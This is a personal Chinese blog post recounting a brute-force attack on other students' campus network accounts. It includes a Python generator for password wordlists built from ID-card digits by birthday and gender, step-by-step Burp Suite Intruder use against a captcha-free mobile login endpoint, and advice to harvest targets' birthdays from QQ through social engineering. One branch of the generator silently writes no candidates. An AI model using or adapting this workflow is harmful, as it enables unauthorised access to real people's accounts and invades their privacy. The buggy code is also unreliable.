 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      My First Post               # 标题 
subtitle:   记一次对校园网账号的爆破 #副标题
date:       2019-05-18              # 时间
author:     Von                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - Practice
    - Web
---
```

前言
---
  上个星期开始就试图对校园网账号进行爆破。当出现验证码后试图用tesserocr对其进行识别继续爆破。然而发现简单的识别识别不出来。本来tesserocr支持
机器学习，然而由于我的菜一直没搞懂，工程本来就此停滞。但是后来在手机上查询校园网流量余额时偶然发现查询流量的网站在移动端居然没有验证码验证。于
是想到可以对移动端进行抓包然后进行爆破。

准备工作
---
  由于校园账号的默认密码是身份证后六位。而身份证后六位的前两位是生日，倒数第二位是性别识别码。所以根据不同的人来生成不同的字典可以大大地提高
速度。由下我写了个python脚本可以根据不同的用户输入生成不同的字典。
```python
def Fun(birthday = '',gender = ''):
	File = 'DICT.txt'
	num = 0
	with open(File,'w') as f:
		if birthday :
			if gender :
				for i in range(0,100):
					STR1 = birthday.zfill(2) + str(i).zfill(2)
					if gender == 'Male':
						for j in range(1,10,2):
							STR2 = STR1 + str(j)
							for k in range(0,10):
								f.write(STR2 + str(k)+'\n')
								num += 1
							f.write(STR2 + 'X' +'\n')
							num += 1
					else:
						for j in range(0,10,2):
							STR2 = STR1 + str(j)
							for k in range(0,10):
								f.write(STR2 + str(k)+'\n')
								num += 1
							f.write(STR2 + 'X' +'\n')
							num += 1
			else :
				for i in range(0,1000):
					STR1 = birthday.zfill(2) + str(i).zfill(3)
					for j in range(0,10):
						STR2 = (STR1 + str(j) + '\n')
						num += 1
					f.write(STR1 + 'X' + '\n')
					num += 1
		else:
			if gender :
				for i in range(1,32):
					STR1 = str(i).zfill(2)
					for j in range(0,100):
						STR2 = STR1 + str(j).zfill(2)
						if gender == 'Male':
							for k in range(1,10,2):
								STR3 = STR2 + str(k)
								for l in range(0,10):
									f.write(STR3 + str(l) + '\n')
									num += 1
								f.write(STR3 + 'X' + '\n')
								num += 1
						else:
							for k in range(2,10,2):
								STR3 = STR2 + str(k)
								for l in range(0,10):
									f.write(STR3 + str(l) + '\n')
									num += 1
								f.write(STR3 + 'X' + '\n')
								num += 1
							
			else:
				for i in range(1,32):
					STR1 = str(i).zfill(2)
					for j in range(0,1000):
						STR2 = STR1 + str(j).zfill(3)
						for k in range(0,10):
							f.write(STR2 + str(k) + '\n')
							num += 1
						f.write(STR2 + 'X' + '\n')
						num += 1
	print('Dictionary generation was successful with a total number of '+str(num))
					
					
day = input('Please input the day: ')
gender = input('Please input the gender(Male or Female): ')
Fun(day,gender)	
```

实战爆破
---
  首先我们使用burpsuite对移动端进行抓包。关于对移动端进行抓包这里不做赘述（原理就是在同个局域网中让手机挂上PC端的代理）。然后让手机访问查询
校园网流量的网站[10.255.44.1:8800](10.255.44.1:8800).抓包所得结果如下:
![](http://VonLYC.github.io/img/BLOG1.png)
  我们可以看出，账号密码是进行明文传输，这给我们的工作提供了便利。我们右键，将其send to intruder.在Positions中将password添加为一个攻击点。
![](http://VonLYC.github.io/img/BLOG2.png)
  再在Payloads中选择我们生成的字典。
![](http://VonLYC.github.io/img/BLOG3.png)
  再在Options中选择线程(Professional版好像默认为5)。之后就可以Start Attack了。
![](http://VonLYC.github.io/img/BLOG4.png)
  接下来的事我们就只需要让burp suite自动完成了。我们只需要在Length中筛选出与其他不同的一项，其所对应的payload就是用户的密码。
![](http://VonLYC.github.io/img/BLOG5.png)
  一般来说,如果我们知道要破解账号的生日的话，生成的字典只有5500个payload，这样一般5分钟内可以得出密码。而如果不知道对方的生日，生成的字典的
payload则有100000+个，一般就需要1，2个小时才可以得出密码。所以如果结合社会工程学从对方QQ之类的东西获取到对方的生日则可以大大的提高效率。

总结
---
  这是我写的第一篇博客，技术含量不高。纯粹是为了记录一下这项小Practice。希望以后能够通过不断的学习正确多更一些高质量的文章吧。





